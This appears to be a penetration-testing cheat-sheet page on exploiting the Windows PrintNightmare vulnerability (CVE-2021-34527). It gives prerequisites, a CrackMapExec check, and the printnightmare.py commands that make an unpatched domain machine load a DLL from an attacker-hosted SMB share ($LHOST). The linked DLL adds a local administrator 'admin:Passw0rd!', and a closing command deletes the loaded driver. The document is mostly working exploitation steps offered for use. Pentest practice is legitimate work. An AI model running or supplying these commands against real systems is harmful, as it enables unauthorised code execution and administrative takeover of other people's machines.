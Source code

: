 # PrintNightmare [CVE-2021-34527]
---

## Prerequisites

- Low privileged domain account.
- Target must be an unpatched domain joined Windows computer.

## Exploit

You can check your target is vulnerable to PrintNightmare with `CrackMapExec` or `Nessus`.

```bash
cme smb $TARGET -d $DOMAIN -u $USERNAME -p $PASSWORD -M printnightmare
```

If the command above states the target is vulnerable, you can use the corresponding [Github repository](https://github.com/ly4k/PrintNightmare) to try the exploit.

To do so, you will might need to expose a share locally on your environement if you are not able to put the DLL directly on the target or anywhere else accessible by the target. You can follow [this tutorial](https://subba-lakshmi.medium.com/create-a-network-share-in-linux-using-samba-via-cli-and-access-using-samba-client-46ae16a012c3) to install `samba` and expose a SMB share on the network.

You will also need to find or code the DLL you want to execute on the target. Following [add_user.dll](https://github.com/ly4k/SpoolFool/blob/main/AddUser.dll) from `SpoolFool` repository can be used to add a local administrator `admin:Passw0rd!` on the target.

```bash
# Check if the target is vulnerable a second time
./printnightmare.py -check '$DOMAIN/$USERNAME:$PASSWORD@$TARGET'

# Exploit it!
./printnightmare.py -dll '\\$LHOST\smb\add_user.dll' '$DOMAIN/$USERNAME:$PASSWORD@$TARGET'

# List loaded drivers to check if the exploit worked
./printnightmare.py -list '$DOMAIN/$USERNAME:$PASSWORD@$TARGET'

# Delete the loaded driver
./printnightmare.py -delete -name 'Microsoft XPS Document Writer v5' '$DOMAIN/$USERNAME:$PASSWORD@$TARGET'
```